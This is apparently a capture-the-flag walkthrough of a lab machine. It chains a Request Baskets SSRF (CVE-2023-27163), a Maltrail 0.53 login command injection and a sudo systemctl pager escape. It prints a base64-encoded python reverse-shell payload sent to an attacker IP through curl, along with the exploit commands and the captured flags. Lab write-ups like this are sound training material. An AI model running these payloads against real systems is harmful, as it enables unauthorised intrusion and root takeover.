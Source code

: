 # Notes:

### IP:
10.10.11.224
### Level:
Easy
### User flag:
aae76269af82f34d13677a7c61db2a48
### Root flag:
c5b4ba7e6f9f1d81ec295f0c28e08ac8


# Nmap

### Nmap gives the following output
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 06 Nov 2023 16:33:37 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|_    Content-Length: 0

```
### With this command
```
nmap -p- -sV -sC 10.10.11.224
```

# Web

Accessing both the 80 port and 8338 port gives us no response on Firefox.
<b>However</b> the :55555 port gives us something:
![[pictures/website.png]]

A request basket webpage. Googling a bit around allows us to find that version 1.2.1 and under is vulnerable to a SSFR attack. Checking the version on the webpage to see if we have that version and...

![[./pictures/baskets-version.png]]
### <b>bingo</b>

# SSRF with **[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**:

Cloning the repository and using the script, we can make the server redirect itself to the other ports we found earlier in the nmap scan, specifically port 80 and port 8338.

We can run these commands that gives us the URL's that redirects to itself with their ports.
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:8338
```
and
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

Going to the new basket we have created redirects us to those ports where this strange website is hosted:
![[./pictures/Maltrail-website.png]]

This really gives us nothing. We see that there is a log in button, however it's not clickable. Nor does it have a link that redirects in the html. HOWEVER! On the bottom of the page we see something interesting once more:

![[./pictures/Maltrail-version.png]]

Googling "Maltrail (v0.53)" led me to this https://github.com/spookier/Maltrail-v0.53-Exploit GitHub page. So as the github page describes. There is a RCE (Remote Code Execution) vulunrability in the login page for Maltrail version 0.53. This must be the "Log In" button we saw previously. So by pure chance I wanted to see if there is a directory called login and...

![[./pictures/Maltrail-login.png]]

### Bingo (again)

So we know there is a login page. We can either use the this nice person's repo, or you can manually send a request via curl, where the data is a reverse shell that's 64 encoded, and decoded using bash on the server's side. OR you can download the script and run it.

If you're curious what the script does:

```python
payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64

command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
```

This is the main part of the script. The **payload** is a reverse shell that uses python to spawn a shell. The **encoded payload** is just the base64 encoded version of that very payload. Finally the **command** is the request that RCE's the username field with a simple semicolon and then decrypts our payload on the server and runs it.

Pulling all of this together or running the script and...

![[./pictures/we're-in.png]]
## **We're in**

Navigating to /home/puma we can now cat out the file user.txt and get:
![[./pictures/user.txt.png]]

# Privilege escalation with # Systemctl:

This one was kind of a cakewalk.

Doing the command `sudo -l` is a quick way to find any privilage escalations, because it lists every command our user can run as root using the sudo command. We then get the output:

```
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can run the the command `sudo systemctl status trail.service` with no password what so ever. This article goes more in depth on what you can do to privilege escalate with Systemctl: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can just run `sudo systemctl status trail.service` and spawn a shell with `!sh` and boom! We are now root. All we have to do now is cat out the contents of /root/root.txt and:

```
# cat /root/root.txt
c5b4ba7e6f9f1d81ec295f0c28e08ac8
```

**In conclusion**: The user flag was very hard to get conceptually and the one I was stuck on. I knew that there was a SSFR, however I didn't know what to do with it. After knowing you could redirect into it's own ports, the challenge became a lot more feasible. I didn't write any of my own scripts with this challenge so hopefully there will come a time in the future for that.